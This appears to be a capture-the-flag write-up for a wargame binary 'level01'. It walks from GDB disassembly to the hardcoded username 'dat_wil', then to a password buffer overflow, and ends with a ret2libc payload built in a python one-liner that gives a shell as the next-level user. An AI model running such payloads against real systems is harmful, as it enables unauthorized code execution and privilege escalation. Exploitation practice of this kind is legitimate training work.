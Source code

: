 
# Level01 - Exploiting a Login Bypass with Buffer Overflow

## Objective

The goal of this challenge is to bypass the login check by exploiting a buffer overflow vulnerability to gain access and execute a shell.

## Step 1: Running the Program

First, let's run the program to observe its behavior:

```bash
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: coucou
verifying username....

nope, incorrect username...
```

The program prompts for a username and indicates that the entered username is incorrect.

## Step 2: Analyzing with GDB

To understand how the program works, let's analyze it using GDB (GNU Debugger):

```bash
$ gdb -q ./level01
```

## Step 3: Finding the Username Check

Within GDB, you can identify that the program uses `fgets` for input, and a function `verify_user_name` checks the username:

```assembly
0x08048528 <+88>: call   0x8048370 <fgets@plt>
0x0804852d <+93>: call   0x8048464 <verify_user_name>
```

The function performs a manual comparison equivalent to `strncmp` with the string `dat_wil`:

```assembly
(gdb) disass verify_user_name
0x0804846c <+8>: mov    DWORD PTR [esp],0x8048690    <--- "verifying username....\n"
0x08048473 <+15>: call   0x8048380 <puts@plt>
0x08048478 <+20>: mov    edx,0x804a040    <--- "dat_wil\n"
0x0804847d <+25>: mov    eax,0x80486a8    <--- "dat_wil"
```

### Step 4: Enter the Correct Username

Now, run the program again and enter the correct username:

```bash
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
```

The program accepts the username and prompts for a password.

## Step 5: Finding the Password Check

The password is checked by the `verify_user_pass` function after another `fgets` call:

```assembly
0x08048574 <+164>: call   0x8048370 <fgets@plt>
0x08048580 <+176>: call   0x80484a3 <verify_user_pass>
```

This function compares the input with the string `admin`, but entering `admin` doesn't work.

## Step 6: Buffer Overflow Vulnerability

Inspecting the code shows that `fgets` reads up to 100 characters into a 16-byte buffer, causing an overflow. The buffer overflow allows us to overwrite the return address.

### Triggering the Overflow

Run the program with an overly long input:

```bash
(gdb) r
Starting program: ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbb
```

The program crashes with a segmentation fault, indicating control over the instruction pointer.

## Step 7: Exploiting with Ret2libc

With the overflow, we can perform a Ret2libc attack. We need addresses for `system`, `exit`, and the string `"/bin/sh"`:

1. Address of `/bin/sh`: `0xf7f897ec`
2. Address of `system`: `0xf7e6aed0`
3. Address of `exit`: `0xf7e5eb70`

### Building the Payload

Construct the payload using the discovered addresses:

```bash
("B" * 80) + "system" + "ret = exit" + "/bin/sh"
```

Execute the attack:

```bash
$ python -c 'print "dat_wil\n" + "B" * 80 + "\xd0\xae\xe6\xf7" + "\x70\xeb\xe5\xf7" + "\xec\x97\xf8\xf7"' > /tmp/payload
$ cat /tmp/payload - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
$ whoami
level02
```

## Summary

- The program checks username and password using manual comparisons.
- Buffer overflow allows overwriting the return address.
- Ret2libc attack is used to execute `/bin/sh`.

This approach allows bypassing the login and gaining elevated access.
